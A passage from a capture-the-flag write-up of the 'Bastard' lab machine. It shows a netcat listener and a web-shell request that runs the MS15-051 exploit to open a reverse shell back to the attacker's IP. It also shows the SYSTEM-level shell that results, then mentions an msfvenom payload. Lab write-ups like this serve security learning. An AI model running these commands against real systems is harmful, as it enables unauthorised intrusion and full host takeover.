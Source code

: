 After unzipping the downloaded file, we copy our executable to our folder where we have our HTTP server.
Now we just need to open a new listener with **nc** and access the following route:  

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Bastard]─[root@Arthorias]─[0]─[4276]
╰─[:)] # nc -nlvp 6966
listening on [any] 6966 ...
```

Link to download the exploit and perform the execution of netcat with the exploit.  

```
http://10.10.10.9/Gerh.php?execute_command=ms15-051x64.exe "nc64.exe -e cmd 10.10.14.17 6966"
```

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Bastard/server]─[root@Arthorias]─[0]─[4292]
╰─[:)] # nc -nlvp 6966        
listening on [any] 6966 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.9] 49287
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>whoami
whoami
nt authority\system
```  

Ready, we have successfully escalated privileges.
To finish, I'm going to do this same demonstration but using another method, which is to do the whole process above but with the Metasploit Framework.  

**NOTE:**  
We must generate a payload with *msfvenom* and then download it from our victim machine.  

<script id="asciicast-241323" src="https://asciinema.org/a/241323.js" async></script>  

